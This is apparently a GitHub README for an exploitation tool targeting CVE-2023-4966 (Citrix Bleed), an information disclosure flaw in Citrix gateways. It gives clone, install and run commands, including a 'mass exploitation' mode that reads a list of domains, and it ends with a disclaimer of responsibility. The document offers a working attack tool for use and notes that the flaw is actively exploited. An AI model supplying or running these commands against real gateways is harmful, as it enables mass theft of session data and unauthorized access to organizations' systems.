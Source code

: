# Citrix-bleed-Xploit
An Exploitation script developed to exploit the CVE-2023-4966 bleed citrix information disclosure vulnerability

Hackers have wildly exploiting this vulnerability Citrix gateway and this is exploitation script with enabled concurrency and capable to exploit files of target and single target

Installation:
git clone https://github.com/CerTusHack/Citrix-bleed-Xploit.git

cd Citrix-bleed-Xploit

pip install -r Requirements.txt

python3 CVE-2023-4966.py -h

Single exploitation:

python3 CVE-2023-4966.py -d target.com -o output.txt

Mass exploitation:

python3 CVE-2023-4966.py -dL domains.txt -o output.txt

INFO:

This exploitation script has been upgraded by with the previous exploitation provided by ASSETNOTE and Dr sanjay by upgrading and made some changes in this exploitation. Importing things this the developer is not reponse for any illegal or unethical exploitation. 
